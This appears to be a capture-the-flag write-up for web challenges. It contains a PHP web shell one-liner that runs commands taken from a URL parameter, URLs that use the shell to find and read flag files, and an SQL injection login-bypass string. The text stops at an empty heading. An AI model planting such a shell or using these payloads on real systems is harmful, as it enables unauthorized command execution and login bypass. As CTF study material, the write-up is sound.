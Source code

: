 ## Gallery
web shell oneliner (must end w/ .php)
```php
$ <?php echo system($_GET["cmd"]); ?>
```
in provided path `/uploads/____/`
```j
foo.php?cmd=find+../../+-name+*flag*
foo.php?cmd=cat+../../*/*flag*
```

## Simple Question of Logic 1
use this in both fields ([ctf101](https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/) . [sqlmap](https://d00mfist.gitbooks.io/ctf/content/sql-injections.html) . [hacktricks](https://book.hacktricks.xyz/pentesting-web/login-bypass))
```sh
# classic login bypass

x' or '1'='1
x' or '1'='1
```
as if to say
```erlang
$sql = "select * from users where username = 'x' OR '1'='1' and password = 'x' OR '1'='1'";
```
## Simple Question of Logic 2
